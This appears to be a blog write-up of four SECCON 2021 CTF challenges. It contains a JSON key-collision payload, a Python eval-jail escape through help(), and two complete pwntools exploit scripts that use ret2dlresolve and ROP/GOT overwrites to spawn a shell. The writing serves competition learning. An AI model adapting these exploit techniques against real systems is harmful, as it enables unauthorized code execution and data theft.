






# 0x0 Introduction


I participate seccon 2021 yesterday.

- [web-vulnerabilities](#0x1-Web-vulnerabilities)
- [misc-hitchhike](#0x2-Misc-hitchhike)
- [pwn-kasu_bof](#0x3-Pwn-kasu-bof)
- [pwn-average](#0x4-pwn-average)


<!-- more -->

# 0x1 Web - vulnerabilities

## basic idea

The program is a web service written in golang. The flag is stored in a in-memory sqlite database.

The data structure of table is called **Vulnerability**

the flag is stored at the last row of the sqlite table.

## vulnerable

the vulnerable is locate at the post method of api

```
	r.POST("/api/vulnerability", func(c *gin.Context) {
		//	Validate the parameter
		var json map[string]interface{}
		if err := c.ShouldBindBodyWith(&json, binding.JSON); err != nil {
			c.JSON(400, gin.H{"Error": "JSON error 1"})
			return
		}
		if name, ok := json["Name"]; !ok || name == "" || name == nil {
			c.JSON(400, gin.H{"Error": "no \"Name\""})
			return
		}

		//	Get details of the vulnerability
		var query Vulnerability
		if err := c.ShouldBindBodyWith(&query, binding.JSON); err != nil {
			c.JSON(400, gin.H{"Error": "JSON error 2"})
			return
		}
		var vuln Vulnerability
		if err := db.Where(&query).First(&vuln).Error; err != nil {
			c.JSON(404, gin.H{"Error": "not found"})
			return
		}

		c.JSON(200, gin.H{
			"Logo": vuln.Logo,
			"URL":  vuln.URL,
		})
	})
```

if we want to query the flag by the **Vulnerability** struct, the only way is query the flag by its' ID (in this case flag have id 14), as defined in the **gorm.Model** 


And every other field in the struct should be zero values ("",0 ...),  Therefore, we need to find a way to let `json["Name"]!=""` and `vuln.Name == ""`

Since *json* is a **map[string]interface{}**, which means it is case sensitive, `"Name"` and `"name"` are two different thing. But how golang struct, when unmarshal, `"Name"` and `"name"` are considered as same key, also the second value will overwrite first value.


## exp.py

Make "Name" = "Heartbleed" two bypass first check, than use "name" = "" to overwrite `vuln.Name`. Use "ID" = 14 to query the flag

```
import requests
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload="{\"Name\":\"Heartbleed\",\"name\":\"\",\"ID\":14}"
response = requests.post(url, data=payload)
print(response.text)

```

## flag

SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}


# 0x2 Misc - hitchhike

**Everything is 42**

## tl;dr

the server.py.



## solution

The first 4 element can convert to 42 by a general solution `"0 or 42"`

It is impossible to find a string v that makes `eval(f'{{b'6':6666}} * {v}', {}, {}) == 42`, because dict can't multiply with any other thing.

but sinces it use eval, we can get a simple shell using `help()`

1. enter help()
2. enter os
3. since the flag is in the environment variable, use !env to get the flag



## flag

SECCON{1_b3li3v3_th1s_1s_th3_sh0rt3st_Pyth0n_c0d3_2_g3t_SH3LL}

# 0x3 Pwn - kasu_bof

## tl;dr

return to dl resolve. just refer to my article [ret2-dl-resolve-example-silent-rop](/2021/11/18/ret2-dl-resolve-example-silent-rop/)

## exp.py

```
from pwn import *

class BinaryInfo:
    exe = "chall"
    libc = ""

    host = "hiyoko.quals.seccon.jp"
    port = 9001

# Set up pwntools for the correct architecture
exe = context.binary = ELF(BinaryInfo.exe)
exe_rop = ROP(exe)
if BinaryInfo.libc != "":
    libc = ELF(BinaryInfo.libc)
    libc_rop = ROP(libc)
else:
    libc = None
    libc_rop = None

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or BinaryInfo.host
port = int(args.PORT or BinaryInfo.port)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())


def log_print(*msg):
    log.info(" ".join(msg))


def int2byte(x: int):
    return x.to_bytes(0x4, "little")


def wait_for_debugger(io):
    if args.LOCAL and input("debugger?") == "y\n":
        pid = util.proc.pidof(io)[0]
        log_print("The pid is: " + str(pid))
        util.proc.wait_for_debugger(pid)
        log_print("press enter to continue")

# binary info goes here

writable_addr = 0x0804d000-0x200
buffer_over_flow_offset = 0x80

io = start()
wait_for_debugger(io)

dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh"], data_addr=writable_addr)


exe_rop.call('gets', [dlresolve.data_addr])
#exe_rop.call('read', [0,dlresolve.data_addr,200]) # read(0,data_addr,length)

exe_rop.ret2dlresolve(dlresolve)
raw_rop = exe_rop.chain()

log_print("Create fake call stack rop")
log_print(exe_rop.dump())

# You may have to remove the ret before the rop, it depends on the machine.
# align stack
ret_addr = exe_rop.find_gadget(['ret'])[0]
# buffer_over_flow_offset + rbp/ebp length
io.sendline(fit({buffer_over_flow_offset+exe.bytes:  int2byte(ret_addr) + raw_rop}))

log_print(f'Sending dlresolve payload at address {hex(dlresolve.data_addr)}:\n{hexdump(dlresolve.payload)}')
io.sendline(dlresolve.payload)
log_print("Get shell")
io.interactive()
```

## flag

SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}

# 0x4 pwn - average

## solution

The leak here is the program can accept number larger than 16, which give me the chance to overwrite the stack by integer value. Since the list `A[16]` only have length 16.

However, there is a restriction that the input value can only be in the range of -123456789 - 123456789, so if we want to enter a number in the libc function, the system will call sys.exit()
```
 if (A[i]<-123456789LL || 123456789LL<A[i])
        {
            printf("too large\n");
            exit(0);
        }
```

But, since it is Patial RERLO, we can change the address in the `got.exit`

Steps

1. call printf(got.printf) to get the leak of libc
2. overwrite got.exit
3. cal system("/bin/sh")


## exp.py

```
from pwn import *


class BinaryInfo:
    exe = "average"
    libc = "libc.so.6"
    # libc = "/usr/lib/x86_64-linux-gnu/libc-2.31.so"

    host = "average.quals.seccon.jp"
    port = 1234

if args.LOCAL:
    BinaryInfo.libc = "/usr/lib/x86_64-linux-gnu/libc-2.31.so"

# Set up pwntools for the correct architecture
exe = context.binary = ELF(BinaryInfo.exe)
exe_rop = ROP(exe)
if BinaryInfo.libc != "":
    libc = ELF(BinaryInfo.libc)
    libc_rop = ROP(libc)
else:
    libc = None
    libc_rop = None

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or BinaryInfo.host
port = int(args.PORT or BinaryInfo.port)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     Rua
# RELRO:    Rua
# Stack:    Rua
# NX:       Rua
# PIE:      Rua

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())


def log_print(*msg):
    log.info(" ".join(msg))


def int2byte(x: int):
    return x.to_bytes(exe.bytes, "little")


def wait_for_debugger(io):
    if args.LOCAL and input("debugger?") == "y\n":
        pid = util.proc.pidof(io)[0]
        log_print("The pid is: " + str(pid))
        util.proc.wait_for_debugger(pid)
        log_print("press enter to continue")


# ======== gadget stuff =========
ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]
log_print("pop rdi; ret", hex(pop_rdi_ret_addr))
pop_rsi_r15_ret_addr = exe_rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
log_print("pop rsi; pop r15; ret", hex(pop_rsi_r15_ret_addr))
# ============================


# ======== libc stuff =========
libc_bin_sh_offset = next(libc.search(b"/bin/sh"))
log_print("libc /bin/sh offset", hex(libc_bin_sh_offset))
libc_printf_offset = libc.sym["printf"]
log_print("libc printf offset", hex(libc_printf_offset))
libc_system_offset = libc.sym["system"]
log_print("libc system offset", hex(libc_system_offset))
# ============================

# ======== binary stuff =========
main_addr = exe.sym["main"]
log_print("main addr", hex(main_addr))
str_lld_addr = next(exe.search(b"%lld"))
log_print("str.%lld addr", hex(str_lld_addr))
# ============================

# ======== plt stuff =========
plt_printf_addr = exe.plt['printf']
log_print("plt.printf addr", hex(plt_printf_addr))
plt_scanf_addr = exe.plt['__isoc99_scanf']
log_print("plt.scanf addr", hex(plt_scanf_addr))
# ============================


# ======== GOT stuff =========
got_printf_addr = exe.got['printf']
log_print("got.printf addr", hex(got_printf_addr))
got_exit_addr = exe.got['exit']
log_print("got.exit addr", hex(got_exit_addr))
# ============================


# ======== stack stuff =========
# stack = flat({
#     0x0: [
#         b"AAAA",
#         0xaaaa,
#         b"AAAA",
#     ],
#     0x100: b"BBBB",
#     0x200: 0xbbbb,
# },filler=b'\x00',length=0x500)
# ============================


writable_addr = 0x404700

io = start()
wait_for_debugger(io)


# ======== pipline stuff =========
# io.send(b"aaaa")
# io.sendline(b"aaaa")
# io.sendlineafter(b"A: ", b"%d" % 1)
#
# io.recv()
# io.recvuntil(b"A: ")
# ============================

def main_list_length(payload):
    return 20 + len(payload)


def main_sender(io, payload):
    length = main_list_length(payload)
    for i in range(length):
        if i == 16:
            io.sendlineafter(b"A[%d]: " % i, b"%d" % length)
            continue
        if i == 19:
            io.sendlineafter(b"A[%d]: " % i, b"%d" % 19)
            continue
        if i >= 20:
            io.sendlineafter(b"A[%d]: " % i, b"%d" % payload[i - 20])
            continue
        io.sendlineafter(b"A[%d]: " % i, b"%d" % ord("a"))


# print got.printf, get real address for printf, use this to get libc_base
log_print("Sending first paylaod, get real address for printf, use this to get libc_base")
payload1 = [writable_addr,
            ret_addr,
            pop_rdi_ret_addr,
            got_printf_addr,
            plt_printf_addr,
            ret_addr,
            main_addr]
io.sendlineafter(b"n: ", b"%d" % main_list_length(payload1))
main_sender(io, payload1)

# print(io.recv())
io.recvuntil(b"\n")
val = io.recvuntil(b"n:")[:-2:]
io.recv()

libc_printf_addr = int.from_bytes(val, "little")
log_print("printf libc addr", hex(libc_printf_addr))
libc_base_addr = libc_printf_addr - libc_printf_offset
log_print("libc base addr", hex(libc_base_addr))
libc_bin_sh_addr = libc_base_addr + libc_bin_sh_offset
log_print("libc bin/sh addr", hex(libc_bin_sh_addr))
libc_system_addr = libc_base_addr + libc_system_offset
log_print("libc system addr", hex(libc_system_addr))

# Sending first paylaod, change address in got.exit to printf real addressf so exit(0) not quit the program
log_print("run main again\nSending second paylaod, change address in got.exit to got.printf so exit(0) not quit the program")
# Sending first paylaod, use scanf("%lld",got_exit_addr) to change got.exit to printf real address
payload2 = [writable_addr,
            ret_addr,
            pop_rdi_ret_addr,
            str_lld_addr,
            pop_rsi_r15_ret_addr,
            got_exit_addr,
            0,
            ret_addr,
            plt_scanf_addr,
            ret_addr,
            main_addr]

io.sendline(b"%d" % main_list_length(payload2))
main_sender(io, payload2)
io.recv()
# Sending printf real address
io.sendline(b"%d" % libc_printf_addr)

log_print("run main again\nSending third paylaod, call system('/bin/sh')")
payload3 = [writable_addr,
            ret_addr,
            pop_rdi_ret_addr,
            libc_bin_sh_addr,
            libc_system_addr]

io.sendlineafter(b"n: ", b"%d"%main_list_length(payload3))
main_sender(io,payload3)
log_print("get shell")
io.interactive()

```

## flag

SECCON{M4k3_My_4bi1i7i3s_4v3r4g3_in_7h3_N3x7_Lif3_cpwWz9jpoCmKYBvf}